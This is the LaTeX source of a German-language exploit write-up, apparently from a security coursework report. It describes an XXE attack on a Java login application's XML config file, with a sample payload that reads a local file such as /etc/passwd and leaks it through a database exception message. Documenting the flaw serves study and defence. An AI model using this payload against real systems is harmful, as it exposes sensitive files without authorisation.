 \documentclass[12pt,a4paper,titlepage,oneside]{scrartcl}
\begin{document}
\subsubsection{Exploit Vorgehensweise / Script}
\noindent
Ein automatisierter Exploit mittels Skript wurde nicht umgesetz, da die Anpassung des XML Files händisch vorgenommen werden sollte. \\
Anleitung: \\
(Hierbei wird davon ausgegangen, dass das Config File beim User (in dem Fall beim Angreifer) liegt. Andernfalls ist dieser Exploit (so) nicht durchführbar.)
\begin{itemize}
\item Editiere Config File und füge eine externe Entität hinzu, deren Inhalt die wir im Node /database/url referenzieren
\item Ändere Inhalt auf (beispielhaft):
\subitem \textless!DOCTYPE configuration [ \\
			\textless!ENTITY c SYSTEM [PATH\_TO\_SENSITIVE\_DATA] \textgreater \\
			]\textgreater \\
			\textless configuration \textgreater \\
				\textless database\textgreater \\
					\textless url \textgreater \&c; \textless /url \textgreater \\
					\textless user\textgreater sa \textless /user\textgreater \\
					\textless pw\textgreater\textless /pw\textgreater \\
				\textless /database\textgreater \\
			\textless /configuration\textgreater \\
wobei [PATH\_TO\_SENSITIVE\_DATA] eine URI zu einer Ressource/File ist, welche ausgelesen werden soll (z.b.: /etc/passwd).
\item Starte Java Applikation => XML File wird geparst, Url, Username und Passwort werden ausgelesen. Dabei enthält die Variable url den Inhalt der externen Entität.
\item Aufbau der DB Connection (Line 92) schlägt fehl, da die url keinen gültigen Treiber referenziert, und löst Exception aus.
\item Exception wird abgefangen und auf System.out ausgegeben. Der Stacktrace der Exception beinhaltet glücklicherweise den ausgelesen Inhalt der externen Entität als Teil der Exception Message. Dies sieht dann in etwa so aus:
\subitem java.sql.SQLException: No suitable driver found for [CONTENT\_OF\_SENSITIVE\_DATA] \\
				at java.sql.DriverManager.getConnection(Unknown Source) \\
				at java.sql.DriverManager.getConnection(Unknown Source) \\
				at Login.main(Login.java:92) \\
wobei [CONTENT\_OF\_SENSITIVE\_DATA] dem Inhalt der externen Entität entspricht.
\end{itemize}
\end{document}
